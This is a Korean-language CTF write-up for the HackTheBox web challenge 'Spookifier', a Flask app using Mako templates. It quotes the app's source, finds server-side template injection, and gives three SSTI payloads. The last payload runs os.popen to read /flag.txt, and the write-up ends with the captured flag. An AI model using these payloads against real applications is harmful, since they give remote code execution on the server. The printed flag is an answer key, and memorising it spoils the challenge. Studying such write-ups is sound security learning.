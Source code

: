 # Spookifier
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)

![image](https://github.com/user-attachments/assets/a98035ef-3cf2-469b-aa8b-28a5446c1232)
- 페이지 접속시 사용자의 입력폼이 하나 존재

## Source Code Analysis
```
from flask import Flask, jsonify
from application.blueprints.routes import web
from flask_mako import MakoTemplates

app = Flask(__name__)
MakoTemplates(app)

def response(message):
    return jsonify({'message': message})

app.register_blueprint(web, url_prefix='/')

@app.errorhandler(404)
def not_found(error):
    return response('404 Not Found'), 404

@app.errorhandler(403)
def forbidden(error):
    return response('403 Forbidden'), 403

@app.errorhandler(400)
def bad_request(error):
    return response('400 Bad Request'), 400
```
- ```mako```템플릿 엔진 사용

```
def change_font(text_list):
    text_list = [*text_list]
    current_font = []
    all_fonts = []
    
    add_font_to_list = lambda text, font_type: (
        [current_font.append(globals()[font_type].get(i, ' ')) for i in text],
        all_fonts.append(''.join(current_font)),
        current_font.clear()
    ) and None
    
    add_font_to_list(text_list, 'font1')
    add_font_to_list(text_list, 'font2')
    add_font_to_list(text_list, 'font3')
    add_font_to_list(text_list, 'font4')
    
    return all_fonts

def spookify(text):
    converted_fonts = change_font(text_list=text)
    return generate_render(converted_fonts=converted_fonts)
```
- 특별한 점 없는 mako 템플릿 SSTI 문제 

## PoC
- 공격 가능 여부를 확인하고 RCE 진행
```
${''.__class__.__mro__[1].__subclasses__()} #객체가 출력되는지를 통해 ssti 여부 확인
${''.__class__.__mro__[1].__subclasses__()[280]} #RCE를 위한 Popen객체 찾기
${self.module.cache.util.os.popen('cat /flag.txt').read()} #Popen 객체로 /flag.txt 파일 읽기
```
![image](https://github.com/user-attachments/assets/f7a7fdda-d69f-4bf2-a5f2-94dce9ff9ba6)
- flag 획득 ```HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}```
